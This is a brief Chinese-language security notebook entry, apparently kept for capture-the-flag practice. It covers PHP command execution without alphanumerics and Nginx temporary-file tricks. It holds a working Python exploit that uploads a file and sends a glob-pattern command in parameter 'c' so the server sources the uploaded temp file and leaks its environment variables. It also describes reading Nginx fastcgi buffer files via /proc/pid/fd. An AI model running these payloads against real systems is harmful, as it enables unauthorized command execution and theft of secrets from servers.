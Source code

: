 # PHP
	- [参考](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
	- ```python
	  import time
	  import requests
	  
	  url = "http://hk2.xxx.xyz:3003/"
	  
	  while True:
	      r = requests.post(
	          url, 
	          params = {
	              "c": ". /[_-{][_-{][_-{]/[_-{][_-{][_-{]?????[@-[]"
	          },
	          files = {
	              "file":("a.txt", "env")
	          }
	      )
	      if r.text:
	          break
	      time.sleep(0.5)
	  
	  print(r.text)
	  ```
- # Nginx
	- [参考](https://www.cnblogs.com/h0cksr/p/16189739.html)
	- 大于32k的文件会被保存在`/var/lib/nginx/fastcgi`中,但是几乎会被立即删除
	- 可以使用`/proc/pid/fd`读取
-